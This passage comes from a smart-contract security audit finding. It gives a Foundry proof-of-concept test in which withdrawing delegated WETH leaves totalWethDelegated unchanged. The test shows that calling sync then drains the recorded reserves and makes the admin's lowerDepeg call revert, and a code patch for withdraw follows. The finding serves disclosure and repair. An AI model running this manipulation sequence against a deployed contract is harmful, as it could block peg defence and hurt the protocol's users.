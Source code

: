 ```solidity
        vm.stopPrank();

        // note: weth reserves manipulation 
        // gets the reserve of WETH in the core contract
        vm.startPrank(user2);
        (,uint256 wethReserveBefore,) = rdpxV2Core.getReserveTokenInfo("WETH");
        console.log("WETH reserve before: ", wethReserveBefore);
        // approve rpdxV2Core to spend WETH
        weth.approve(address(rdpxV2Core), type(uint256).max);
        // delegate WETH, and assert it was delegated
        uint256 delegateId = rdpxV2Core.addToDelegate(wethReserveBefore, 1e8);
        assertTrue(rdpxV2Core.totalWethDelegated() == wethReserveBefore);
        // withdraw WETH, assert WETH was withdrawn but it still says WETH is delegated
        rdpxV2Core.withdraw(delegateId);
        assertTrue(rdpxV2Core.totalWethDelegated() == wethReserveBefore);
        // assert that the user2 has the same balance he had before
        assertTrue(weth.balanceOf(user2) == 10 ether);
        // call sync and make WETH reserves -= WETH delegated
        rdpxV2Core.sync();
        // check the amount of WETH in reserves after and assert it is smaller than before
        (,uint256 wethReserveAfter,) = rdpxV2Core.getReserveTokenInfo("WETH");
        assertTrue(wethReserveBefore - rdpxV2Core.totalWethDelegated() == wethReserveAfter);
        console.log("WETH reserve after:  ", wethReserveAfter);
        vm.stopPrank();

        // note: admin tries to defend the peg.
        // update the dpxETH price to simulate 1 dpxETH < 1 ETH
        dpxEthPriceOracle.updateDpxEthPrice(98137847);
        // expect the transaction to revert with an underflow.
        vm.expectRevert(stdError.arithmeticError);
        rdpxV2Core.lowerDepeg(0, 10 ether, 0, 0);
}
```

### Tools Used

Foundry

### Recommended Mitigation Steps

Update the totalWethDelegated in the `withdraw` function.

```solidity
    function withdraw(uint256 delegateId) external returns (uint256 amountWithdrawn) {
        _whenNotPaused();
        _validate(delegateId < delegates.length, 14);
        Delegate storage delegate = delegates[delegateId];
        _validate(delegate.owner == msg.sender, 9);

        amountWithdrawn = delegate.amount - delegate.activeCollateral;
        _validate(amountWithdrawn > 0, 15);
        delegate.amount = delegate.activeCollateral;
+       totalWethDelegated -= amountWithdrawn;

        IERC20WithBurn(weth).safeTransfer(msg.sender, amountWithdrawn);

        emit LogDelegateWithdraw(delegateId, amountWithdrawn);
    }
```

